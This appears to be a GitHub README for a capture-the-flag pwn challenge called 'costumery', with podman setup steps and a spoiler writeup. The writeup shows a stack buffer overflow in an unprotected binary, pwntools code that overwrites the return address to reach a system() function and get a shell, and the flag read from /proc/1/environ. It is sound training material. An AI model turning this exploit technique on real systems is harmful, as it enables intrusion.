

# Costumery

A <ins>simple, basically free pwn flag</ins> for anyone who have ever done pwn challenges before. Only a single file is provided, namely [costumery](out/costumery).

## How to run

The image was tested with podman, but should work fine with docker as well.

0. Clone the repo and cd to the root folder of the particular challenge
1. Build the image: `podman build -t ctf-costumery:latest .`
2. Run the image: `podman run --rm --name=ctf-costumery -it -e CHALLENGE_PORT=1337 -e FLAG=flag{g0es_h3r3} -p 1337:1337 ctf-costumery:latest`
3. Share the [costumery](out/costumery) file with the challengers

<details>
<summary>Writeup (Spoiler)</summary>

First of all, I must say that this is only one way to solve this challenge. Of course you can always go the harder way and solve this somehow differently (eg. with ROP gadgets).

If we connect to the port, we get a terminal based shop thing. Ghidra, or your favorite decompiler/disassembler should relatively quickly reveal that there are a handful of subs. Checksec tells us that there is literally no protection on this binary. No PIE, no canary, no NX, nothing.

```
[steve@todo out]$ checksec --file=./costumery
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFYFortified        Fortifiable     FILE
Full RELRO      No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No Symbols        No   03               ./costumery
```

If we are dealing with an executable stack, chances are that we can do a stack based buffer overflow attack. Let's see if we have any function that is using system or exec* calls:

<p align="center">
    
    <br />
    <i>Ghidra reveals the unused system() caller method to us</i>
</p>

The goal is clear: jumping into it. My Ghidra named it `FUN_00401951`, so we have our address, `0x401951`. We should use this later.

But we are still lacking the attack surface. Most of the code seems fine, but there is one function that is a bit suspicious:

```c
void FUN_0040150a(void)

{
  undefined local_78 [112];
  
  printf("Enter your IBAN number: ");
  fflush((FILE *)0x0);
  read(0,local_78,0x100);
  return;
}
```

Sweet! We got a buffer, `local_78`, that is 112 bytes long. There is however a `read()` call that reads 256 bytes into it. This is a classic buffer overflow. We can overwrite the return address of this function with the address of `FUN_00401951` and we are done in theory.

Let's check if the binary is 32 or 64 bit:

```
[steve@todo out]$ file costumery
costumery: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-musl-x86_64.so.1, stripped
```

Great, exploit time. We will need a RIP offset. Cyclic will do the job. I will do this locally:

```py
exe = "./out/costumery"
def find_ip(payload):
    p = process(exe)
    p.recvuntil("===================================\n")
    p.sendline("1")
    p.sendline("1")
    p.sendline("yes")
    p.sendlineafter(":", payload)
    p.wait()
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4).decode())
    info("located EIP/RIP offset at {a}".format(a=ip_offset))
    return ip_offset

offset = find_ip(cyclic(150))
```

Basically we just send a cyclic string to the binary and check where it crashes from the core dump.

Next we can already craft our payload:

```py
io = start()
win_addr = 0x401951

io.recvuntil("===================================\n")
io.sendline("1")
io.sendline("1")
io.sendline("yes")
payload = flat(
    asm("nop", arch="amd64") * offset,
    # just to be sure, AAAAAAs also work
    win_addr,
)
info("payload: %s", enhex(payload))
io.sendlineafter(":", payload)

io.interactive()
```

And we get a shell. Where is the flag?

```
$ ls
costumery
flag.txt
ynetd
$ cat flag.txt
Yayy, we are in! But where is the flag? I remember I saved it somewhere, but where?$ pwd
/home/challenger
$ 
```

Not so helpful. But if we take a look at the first process and check its environment variables, we quickly find this:

```
$ cat /proc/1/environ
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\x00HOSTNAME=5ff575db24bd\x00CHALLENGE_PORT=25565\x00FLAG=cq23{e45y_p34zy_l3m0n_squ33zy_455857558d7d1499aa7498949546a2b2}\x00HOME=/home/challenger\x00
```

And there we have it.
</summary>